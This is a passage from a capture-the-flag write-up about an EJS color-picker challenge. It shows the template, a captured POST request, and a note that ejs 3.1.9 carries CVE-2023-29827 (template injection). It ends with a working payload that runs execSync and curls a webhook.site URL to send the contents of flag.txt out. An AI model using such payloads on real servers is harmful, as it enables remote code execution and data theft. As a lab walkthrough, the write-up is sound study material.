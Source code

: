Then go though `index.ejs` code which is the template itself.

```html
<div class="container">
    <div class="card mt-5 mx-auto" style="width: 18rem;">
        <span class="user-icon">👤</span>
        <div class="card-body">
            <h5 class="card-title"><b>John Doe</b></h5>
            <p class="card-text"><b>Username:</b> johndoe</p>
            <p class="card-text"><b>Email:</b> johndoe@example.com</p>
            <div id="colorPicker" data-jscolor="{value:'<% profileColor %>'}"></div>
            <p>Selected Color: <span id="selectedColor">None</span></p>
            <button id="submitColor" class="btn btn-primary mt-2">Update Profile</button>

        </div>
    </div>
</div>
```

Looking in the `POST` request to `/setColor` is being sent, the color to the backend template `ejs` to handle it.

```http
POST /setColor HTTP/1.1
Host: challenge.ctf.games:31417
Content-Length: 15
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://challenge.ctf.games:31417
Referer: http://challenge.ctf.games:31417/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJqb2huX2RvZSIsInJvbGUiOiJ1c2VyIn0.pNGsWOaNM05ak48_gkmNBuHjIHLQr6LP7G4hWeue_0k; session=eyJjc3JmX3Rva2VuIjoiZjcxY2I1NzdiMmRjNTRlZWQ2NDU5NzA5NGI3NzFiNjM2YmQ2MDAyNiJ9.ZTzjvA.gSaBgCbbljgKr2VfA-AsB59AGPY
Connection: close

color=%23ffffff
```

The app is using `ejs` version 3.1.9 which has Vulnerability CVE-2023-29827 a [Server Side Template Injection](https://portswigger.net/web-security/server-side-template-injection) , I couldn't solve this challenge on the CTF time I've tried many payloads and read the documentation of ejs but I could do noting. 

This payload is working when sending it to `/setcolor` endpoint it gives back the flag!

```js
color=<% global.process.mainModule.require("child_process").execSync("curl+https://webhook.site/6d251aae-45f8-4f21-bc0d-c7ac312aa077?cmd=`cat+/color_profile/flag.txt`") %>
```

